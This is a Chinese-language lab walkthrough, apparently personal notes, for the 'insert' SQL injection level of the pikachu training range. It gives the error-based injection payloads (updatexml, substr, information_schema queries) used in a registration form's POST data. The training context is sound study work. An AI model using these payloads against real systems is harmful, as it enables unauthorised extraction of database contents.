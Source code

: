 ```php+HTML
```

通过观察源码可以看到代码对传入的数据未进行转义，未对SQL注入进行防护

***

# 二、通关教程

## insert

发现有个注册页面，注册页面如果有注入漏洞的话，一般是insert类型的，因为注册相当于往数据库的表中插入一行新数据。填写注册信息，然后抓个包，可以看到时post形式传输的数据

![image-20230305131522785](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305131522785.png)

尝试在admin1后加单引号，报错了而且报错信息中没有出现admin，可能是单引号完成闭合了，最后还需要加个）完成闭合

![image-20230305131750835](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305131750835.png)

添加其他参数和）构建闭合

```
admin1','111','222','333','444','555')#
```

![image-20230305131954705](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305131954705.png)

构建好闭合了，但是这个注册页面是没有回显的，怎样查询数据呢，我们可以采用报错注入的形式让查询的数据显示在报错页面中,完整提交的post数据,payload里面是or或者and都可以，注意最后可以不用注释符，把第一个参数的单引号闭合就可以了

```
username=admiin' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or' 
&password=admin1&sex=11&phonenum=11111111&email=1111&add=1111&submit=submit
```

![image-20230305132246461](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305132246461.png)

然后就是替换database()，查询其他数据。下面查询的长度超出updatexml函数的显示范围了（显示32个字符），需要在payload中加substr()函数来把剩下的字符显示出来，拼接起来就是查询出的数据，查询表的payload如下

```
username=admin1' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) or'
&password=admin1&sex=11&phonenum=11111111&email=1111&add=1111&submit=submit
```

![image-20230305132538688](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305132538688.png)

明显最后一个表没有查询完整，调整一下payload中的值

```
username=admin1' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),32,31),0x7e),1) or'
&password=admin1&sex=11&phonenum=11111111&email=1111&add=1111&submit=submit
```
